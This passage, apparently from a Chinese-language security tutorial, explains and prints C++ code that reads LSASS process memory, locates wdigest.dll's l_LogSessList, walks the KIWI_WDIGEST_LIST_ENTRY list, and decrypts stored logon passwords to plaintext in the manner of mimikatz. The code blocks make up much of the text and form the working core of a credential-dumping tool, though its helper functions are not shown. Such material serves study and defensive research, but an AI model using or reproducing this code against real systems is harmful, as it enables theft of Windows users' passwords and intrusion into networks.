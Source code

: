 ```cpp
```

这里得到了 lea 指令中偏移量 相对`wdigest.dll`模块基址的偏移值`logSessListSigOffset + sizeof keySig`，然后读取出该偏移处的4字节数据，得到`logSessListOffset`，即为`l_LogSessList`相对下一条指令地址的偏移。

```cpp
// 计算logSessListAddr全局变量地址
ReadFromLsass(wdigestBaseAddress + logSessListSigOffset + sizeof keySig + 4 + logSessListOffset, &logSessListAddr, sizeof logSessListAddr);
wprintf(L"logSessListAddr = 0x%p\n", logSessListAddr);

// 读取logSessListAddr指向的结构体内容
ReadFromLsass(logSessListAddr, &entry, sizeof(KIWI_WDIGEST_LIST_ENTRY));
pList = entry.This;
```

读取`l_LogSessList`指向的结构体内容，得到一个指向`KIWI_WDIGEST_LIST_ENTRY`结构体的指针，然后遍历该链表，读取每个节点的内容。

```cpp
do {
	memset(&entry, 0, sizeof(entry));
	ReadFromLsass(pList, &entry, sizeof(KIWI_WDIGEST_LIST_ENTRY));

	if (entry.UsageCount == 1) {
		UNICODE_STRING* username = ExtractUnicodeString((PUNICODE_STRING)(
			(PUCHAR)pList + offsetof(KIWI_WDIGEST_LIST_ENTRY, UserName)
			));
		UNICODE_STRING* password = ExtractUnicodeString((PUNICODE_STRING)(
			(PUCHAR)pList + offsetof(KIWI_WDIGEST_LIST_ENTRY, Password)
			));

		if (username != NULL && username->Length != 0) wprintf(L"Username: %ls\n", username->Buffer);
		else wprintf(L"Username: [NULL]\n");

		// Check if password is present
		if (password->Length != 0 && (password->Length % 2) == 0) {
			// Decrypt password using recovered AES/3Des keys and IV
			if (DecryptCredentials((char*)password->Buffer, password->MaximumLength,
				(PUCHAR)passDecrypted, sizeof(passDecrypted)) > 0) {
				wprintf(L"Password: %ls\n\n", passDecrypted);
			}
		}
		else {
			printf("Password: [NULL]\n\n");
		}

	}
	pList = entry.Flink;
} while (pList != logSessListAddr);
```

遍历链表中的每个节点，读取用户名和密码的`UNICODE_STRING`结构体，并提取出实际的字符串内容。对于密码，如果存在且长度为偶数，则使用之前定位的密钥和向量进行解密，即调用`DecryptCredentials`函数，得到明文密码。
